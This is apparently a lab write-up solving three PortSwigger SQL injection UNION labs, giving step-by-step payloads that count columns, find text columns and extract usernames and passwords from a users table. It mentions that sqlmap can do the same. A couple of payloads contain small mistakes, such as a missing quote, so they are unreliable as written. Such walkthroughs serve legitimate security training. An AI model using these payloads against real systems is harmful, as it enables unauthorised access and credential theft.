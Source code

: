 # SQL Injection Part 2: Portswigger Labs
### [Lab 4: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

**To solve: Find column containing text and print gDi73c**

**STEP 1:**
Find number of colums
```html
'+UNION+SELECT+NULL,NULL,NULL--
```

**STEP 2:**
Find columns that contains text
```html
'+UNION+SELECT+NULL,'abcd',NULL--
```

**STEP 3:**
Print the text 'gDi73c'
```html
'+UNION+SELECT+null,+'gDi73c',+null--
```

### [Lab 5: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

**To solve: Login as administrator**

**STEP 1:**
Find number of column returned
```html
'+UNION+SELECT+NULL,NULL--
```

**STEP 2:**
Find column that contains text
```html
'+UNION+SELECT+abcd,'abcd'--
```
***Both column contains text***

**STEP 3:**
Return username and password from users table
```html
+UNION+SELECT+username,+password+FROM+users--
```

### [Lab 6: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
**To solve: Login as administrator**

**STEP 1:**
Find number of column returned
```html
'+UNION+SELECT+NULL,NULL--
```

**STEP 2:**
Find column that contains text
```html
'+UNION+SELECT+null,'abcd'--
```

**STEP 3:**
Return username and password in single column
```html
'+UNION+SELECT+null,+username||password+FROM+users--
```

ALL THE ABOVE CAN BE ALSO DONE BY SQLMAP


